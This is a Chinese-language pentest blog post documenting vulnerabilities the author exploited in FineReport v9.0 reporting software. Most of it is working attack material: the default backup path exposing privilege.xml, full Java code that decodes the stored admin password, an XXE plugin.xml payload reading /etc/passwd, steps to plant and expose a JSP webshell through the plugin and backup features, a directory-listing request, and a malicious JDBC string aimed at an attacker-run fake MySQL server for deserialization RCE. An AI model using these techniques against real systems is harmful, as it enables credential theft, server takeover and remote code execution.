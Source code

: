 ```yaml
---
layout: post
title: 帆软报表v9.0 Vulnerability
summary: 一次针对帆软v9.0系统的渗透发现的脆弱点
featured-img: fr
---
```


## TL; DR

**本篇是水文**

网上公开的目前只有帆软v8.0部分漏洞，而v9.0中这几个漏洞已修（HW快开始了）

本文记录针对帆软v9.0渗透中发现的脆弱点

+ 前台备份文件泄露（默认路径）
+ 后台XXE
+ 后台GetShell
+ 后台任意jdbc串连接导致
  + 本地文件读取
  + 反序列化RCE

## 前台备份文件泄露

帆软v9.0提供了备份文件功能

默认情况下（官方示例https://help.finebi.com/finebi4.1/doc-view-517.html）的备份文件路径是：

```
path="${WEB_REPORT}/bakup"
```

存在以下几种备份（就是bakup，不是我笔误）：

```
all_bakup  
config_bakup  jar_bakup  log_bakup
plugins_bakup  reportlets_bakup  update_bakup
```

备份内部的路径为

```
autobackup/YYYY.MM.DD<space>HH.MinMin.SS
manualbackup/<NAME(default is timestamp)>
```

如果确认WEB根目录下存在备份目录，可以尝试猜解timestamp。如果是Windows下，还可结合短文件名

我所遇目标系统privilege.xml路径：

```
http://IP/WebReport/bakup/config_bakup/autobackup/2020.04.07%2018.10.10/resources/privilege.xml
```

privilege.xml中存放了编码后的admin密码，反编译jar可知编码算法

```java
// fr-core-9.0.jar/com/fr/stable/CommonCodeUtils.java
public class Main {
    private static final int[] PASSWORD_MASK_ARRAY = {19, 78, 10, 15, 100, 213, 43, 23};

    public static String passwordDecode(String paramString) {
        if (paramString != null && paramString.startsWith("___")) {
            paramString = paramString.substring(3);
            StringBuilder stringBuilder = new StringBuilder();
            byte b1 = 0;
            for (byte b2 = 0; b2 <= paramString.length() - 4; b2 += 4) {
                if (b1 == PASSWORD_MASK_ARRAY.length)
                    b1 = 0;
                String str = paramString.substring(b2, b2 + 4);
                int i = Integer.parseInt(str, 16) ^ PASSWORD_MASK_ARRAY[b1];
                stringBuilder.append((char)i);
                b1++;
            }
            paramString = stringBuilder.toString();
        }
        return paramString;
    }

    public static void main(String[] args) {
        String pwd = "___0022...";
        System.out.println(passwordDecode(pwd));
    }
}

```

## 后台XXE

后台有上传插件功能，上传文件为zip格式，插件元信息放在压缩包的plugin.xml中

将WebShell和plugin.xml压缩后上传，FineReport在解析plugin.xml时存在XXE

至于源码我就不打算分析了，感兴趣可以自己反编译看一下，教科书式的XXE写法。可能是因为在后台，一直没有人提出

两种利用：

+ 读文件，但XXE回显在插件管理栏时有字数限制，可FTP OOB。而且Java的XXE是可以列目录的，但其实后台有列目录接口，后面讲
+ SSRF，Windows下低版本JDK默认会启用NTLM认证，可以破解hash或hash relay

plugin.xml示例：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>
<plugin>
    <id>EVIL</id>
    <name>&b;</name>
    <active>yes</active>
    <version>0.0.1</version>
    <env-version>8.0</env-version>
    <vendor>finereport.wei</vendor>   
    <jartime>2017-11-08</jartime>
    <description>&b;</description>
    <extra-report>
        <ActorProvider class="com.fr.wei.plugin.h5reportnew.server.report.Html5PageActorProvider"/>
    </extra-report>
    <extra-platform>
        <PlateProvider class="com.fr.wei.plugin.h5reportnew.server.fs.Html5ManagementPlateProvider"/>
    </extra-platform>
</plugin>

```

## 后台GetShell

压缩包中的WebShell解压后会放在

```
WEB-INF/plugins/plugin-EVIL-[VERSION]
```

结合手动备份功能，将其备份到WEB目录下

即可访问

```
http://IP/WebReport/bakup/plugins_bakup/manualbackup/EVIL/plugins/plugin-EVIL-0.0.1/1.jsp
```

假如备份文件路径不在WEB目录下，其实后台给了设置备份文件存储路径的功能，可以将WebShell转到可访问目录中

```
智能运维 -> 备份还原 -> 设置 -> 备份路径
```

我所遇目标系统就是通过这种方式getshell

而且这里在选择备份路径时，是有列目录功能的

```
POST
/WebReport/ReportServer?op=fs_bakrestore&cmd=folder_tree

serverID=&optype=get_nodes&parentID=/root&layer=1
```

只要能进入后台，并且启用了插件功能，结合列目录，getshell基本没什么问题

## 任意JDBC串连接

数据库操作可导致反序列化，文章：

https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649721398&idx=3&sn=ffc2b37268b51b61ed4edba5683cd5b5&chksm=888cba59bffb334fabaf35ffb588d7f0d9ed2d4959d7bfd3d4fa137821a23b7b525c2b1a33b3&mpshare=1&scene=23&srcid=&sharer_sharetime=1587033454342&sharer_shareid=04fc381b7838be4b14d617ae0623e947#rd

目标系统是`mysql-connector-java-5.1.6-bin.jar`，在文章所说的可攻击范围内（我通过`ysoserial.URLDNS`验证确实可成功反序列化）

攻击需要结合本地gadgets，反编译`fr-third-9.0.jar`发现存在`springframework`，但spring版本不合，反编译后发现没有`springframework.beans.factory.support.AutowireUtils`和`springframework.core.SerializableTypeWrapper`。且目标是JDK8u242，就算spring是漏洞版本也无法攻击

简单尝试后并没有找到可利用的gadgets，如果日后有机会可以尝试挖掘`fr-core, fr-third, fr-chart`等jar包

在有可利用gadget情况下:

将`fr-third-9.0.jar`导入本地mvn仓库

```
mvn install:install-file -Dfile='fr-third-9.0.jar' -DgroupId='com.fr.third' -DartifactId='fr-third' -Dversion='9.0' -Dpackaging=jar
```

将gadget的package的导入的路径修改为`com.fr.third.xxx`，修改pom.xml加入`fr-third dependency`后重新编译

服务端`Fake_MySQL_Server`监听，后台修改JDBC串为

```
jdbc:mysql://IP:3306/db?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_GADGET_CMD
```

修改后随意触发一处查询即可RCE
